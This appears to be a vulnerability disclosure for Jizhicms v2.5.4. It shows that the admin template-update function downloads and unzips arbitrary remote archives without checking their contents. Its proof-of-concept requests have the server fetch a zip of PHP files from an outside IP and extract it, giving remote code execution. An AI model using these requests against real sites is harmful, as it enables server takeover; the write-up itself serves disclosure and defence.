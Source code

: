 ## Jizhicms v2.5.4

Jizhicms (Extreme CMS) is an open-source content management system (CMS) developed by Jizhi Network Technology, a Chinese company.

The latest version, JIZHICMS 2.5.4, contains a file upload vulnerability that can lead to Remote Code Execution (RCE). The vulnerability arises from an arbitrary file download and extraction flaw in the `app\admin\c\TemplateController.php` component.

### Debugging Analysis

The web system has a feature to download third-party templates.
![](./public/1.png)
The code is located in the `update` method of `app\admin\c\TemplateController.php`. The main code logic is as follows:
```php
// Download and install update
function update(){
    $template = $this->frparam('template',1);
    if(strpos($template,'.')!==false){
        JsonReturn(array('code'=>1,'msg'=>JZLANG('Parameter contains security risks!')));
    }
    $this->template_name = $template;
    $dir = APP_PATH.'static';
    if($template){
        if($this->frparam('action',1)){
            $action = $this->frparam('action',1);
            // Retrieve these information
            $remote_url  = urldecode($this->frparam('download_url',1));
            $remote_url = strpos($remote_url,'?')!==false ? $remote_url.'&version='.$this->webconf['web_version'] : $remote_url.'?version='.$this->webconf['web_version'];
            $file_size   = $this->frparam('filesize',1);
            $tmp_path    = Cache_Path."/update_".$template.".zip"; // Temporary download file path
            switch ($action) {
                case 'prepare-download':
                    $code = 0;
                    ob_start(); 
                    $ch=curl_init($remote_url); 
                    curl_setopt($ch,CURLOPT_HEADER,1); 
                    curl_setopt($ch,CURLOPT_NOBODY,1); 
                    $okay=curl_exec($ch); 
                    curl_close($ch); 
                    $head=ob_get_contents(); 
                    ob_end_clean(); 
                    $regex='/Content-Length:\s([0-9].+?)\s/'; 
                    $count=preg_match($regex,$head,$matches); 
                    $filesize = isset($matches[1])&&is_numeric($matches[1])?$matches[1]:0; 

                    JsonReturn(array('code'=>0,'size'=>$filesize));
                    break;
                case 'start-download':
                    // Check if tmp_path exists
                    try {
                        set_time_limit(0);
                        touch($tmp_path);
                        if ($fp = fopen($remote_url, "rb")) {
                            if (!$download_fp = fopen($tmp_path, "wb")) {
                                exit;
                            }
                            while (!feof($fp)) {
                                if (!file_exists($tmp_path)) {
                                    // If temporary file is deleted, cancel the download
                                    fclose($download_fp);
                                    exit;
                                }
                                fwrite($download_fp, fread($fp, 1024 * 8 ), 1024 * 8);
                            }
                            fclose($download_fp);
                            fclose($fp);
                        } else {
                            exit;
                        }
                    } catch (Exception $e) {
                        Storage::remove($tmp_path);
                        JsonReturn(['code'=>1,'msg'=>JZLANG('An error occurred').'：'.$e->getMessage()]);
                    }

                    JsonReturn(['code'=>0,'tmp_path'=>$tmp_path]);
                    break;
                case 'get-file-size':
                    // Check if tmp_path exists
                    if (file_exists($tmp_path)) {
                        JsonReturn(['code'=>0,'size'=>filesize($tmp_path)]);
                    }
                    break;
                case 'file-upzip':
                    if (!file_exists($tmp_path)) { // Check if the file to unzip exists
                        JsonReturn(['code'=>1,'msg'=>JZLANG('Downloaded cache file does not exist!')]);
                    }
                    //$msg = $this->upzip($tmp_path,$dir);
                    $msg = $this->get_zip_originalsize($tmp_path,$dir.'/');
                    setCache('templatelist',null);
                    JsonReturn(['code'=>0,'msg'=>$msg,'isinstall'=>true]);
                    break;
                case 'template-install':
                    $tpl = $this->frparam('tpl',2);
                    if(!count($tpl)){
                        JsonReturn(array('code'=>1,'msg'=>JZLANG('Please select a usage scenario!')));
                    }
                    if(file_exists($dir.'/'.$template.'/install/TemplateController.php')){
                        // Directly set the template
                        require_once($dir.'/'.$template.'/install/TemplateController.php');
                        $plg = new \TemplateController($this->frparam());
                        $step1 = $plg->install(); // Execute installation
                        if(!$step1){
                            JsonReturn(array('code'=>1,'msg'=>JZLANG('Failed to execute plugin installation program!')));
                        }
                    }
                    if(in_array('pc',$tpl)){
                        M('sysconfig')->update(['field'=>'pc_template'],['data'=>$template]);
                    }
                    if(in_array('wap',$tpl)){
                        M('sysconfig')->update(['field'=>'wap_template'],['data'=>$template]);
                        M('sysconfig')->update(['field'=>'iswap'],['data'=>1]);
                    }
                    if(in_array('wechat',$tpl)){
                        M('sysconfig')->update(['field'=>'weixin_template'],['data'=>$template]);
                        M('sysconfig')->update(['field'=>'iswap'],['data'=>1]);
                    }

                    setCache('webconfig',null);
                    setCache('hometpl',null);
                    setCache('wxhometpl',null);
                    setCache('mobilehometpl',null);
                    setCache('templatelist',null);
                    JsonReturn(array('code'=>0,'msg'=>JZLANG('Installation successful!')));
                    break;
                case 'backup':
                    if(!is_dir(APP_PATH.'static/'.$template.'/backup')){
                        mkdir(APP_PATH.'static/'.$template.'/backup',0777);
                    }
                    $this->backupPath = APP_PATH.'static/'.$template.'/backup';
                    $this->toBackup();
                    JsonReturn(array('code'=>0,'msg'=>JZLANG('Backup successful!')));
                    break;
                default:
                    # code...
                    break;
            }
        }
    }
}
```
As we can see, in the `start-download` branch, a remote zip file can be downloaded, and the downloaded file will be saved to:
```php
$tmp_path    = Cache_Path."/update_".$template.".zip";
```

Additionally, there is a `file-unzip` branch to extract the downloaded zip file to the directory:
```php
$dir = APP_PATH.'static';
```

Looking into the extraction function `get_zip_originalsize`, there is no check on the file content:
```php
function get_zip_originalsize($filename, $path) {
    // Check if the file to unzip exists
    if(!file_exists($filename)){
        JsonReturn(['code'=>1,'msg'=>$filename.JZLANG('File does not exist!')]);
    }

    $starttime = explode(' ',microtime()); // Time when decompression starts

    // Open the zip file
    $resource = zip_open($filename);
    $i = 1;
    // Traverse and read each file in the zip
    while ($dir_resource = zip_read($resource)) {
        // If it can be opened, continue
        if (zip_entry_open($resource,$dir_resource)) {
            // Get the current file name from the zip
            $file_name = $path.zip_entry_name($dir_resource);
            // Split by the last "/" to get the directory part
            $file_path = substr($file_name,0,strrpos($file_name, "/"));
            // If the path does not exist, create the directory
            if(!is_dir($file_path)){
                mkdir($file_path,0777,true);
            }

            // If it's not a directory, write the file
            if(!is_dir($file_name)){
                // Read the file
                $file_size = zip_entry_filesize($dir_resource);
                // Limit to 6MB, skip large files
                $file_content = zip_entry_read($dir_resource,$file_size);
                file_put_contents($file_name,$file_content);
            }
            // Close the current file
            zip_entry_close($dir_resource);
        }
    }
    // Close the zip file
    zip_close($resource);

    $endtime = explode(' ',microtime()); // Time when decompression ends
    $thistime = $endtime[0]+$endtime[1]-($starttime[0]+$starttime[1]);
    $thistime = round($thistime,3); // Round to 3 decimal places
    $msg = JZLANG("Decompression complete! This time took")."：$thistime ".JZLANG("seconds")."。";
    return $msg;
}
```

Thus, we can upload a zip file containing PHP files to a VPS server, download, extract, and access it to trigger RCE.

### PoC Attack

Prepare a zip file containing PHP files.
![](./public/2.png)
Start a Python server on the VPS to serve the `2.zip` file, then request the download and get the filename.

PoC:
```r
action=start-download&template=jzweb2&download_url=http://124.220.37.173:8999/2.zip
```

![](./public/3.png)
Request to

 extract the file.
PoC:
```r
action=file-upzip&template=jzweb2
```

![](./public/4.png)

The VPS receives the request.
![](./public/5.png)
The path is successfully parsed and the PHP file is executed.
```r
static/2.php
```
![](./public/6.png)

